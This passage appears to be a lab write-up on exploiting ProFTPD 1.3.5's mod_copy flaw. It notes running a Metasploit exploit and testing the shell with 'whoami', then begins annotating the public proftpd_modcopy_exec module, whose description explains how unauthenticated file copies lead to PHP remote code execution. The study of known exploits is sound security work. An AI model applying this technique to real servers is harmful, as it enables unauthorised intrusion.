 ![alt text](imagesh3/image-22.png)

```run``` to start exploit, after inside, i test with commands whoami and touch testi3.txt

![alt text](imagesh3/image-26.png)

![alt text](imagesh3/image-24.png)

![alt text](imagesh3/image-25.png)



<a name="b-source-code-analysis"></a>
## 📜 B) Source Code Analysis

https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/ftp/proftpd_modcopy_exec.rb

```diff
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework 
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking # exploit reliability

+# metasploit modules / libraries
  include Msf::Exploit::Remote::Tcp
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::FileDropper

+# def initialize contains mostly configurations and info
  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'ProFTPD 1.3.5 Mod_Copy Command Execution',
        'Description' => %q{
          This module exploits the SITE CPFR/CPTO mod_copy commands in ProFTPD version 1.3.5.
          Any unauthenticated client can leverage these commands to copy files from any
          part of the filesystem to a chosen destination. The copy commands are executed with
          the rights of the ProFTPD service, which by default runs under the privileges of the
          'nobody' user. By using /proc/self/cmdline to copy a PHP payload to the website
          directory, PHP remote code execution is made possible.
        },
        'Author' => [
          'Vadim Melihow', # Original discovery, Proof of Concept
          'xistence <xistence[at]0x90.nl>' # Metasploit module
        ],
        'License' => MSF_LICENSE,
        'References' => [
```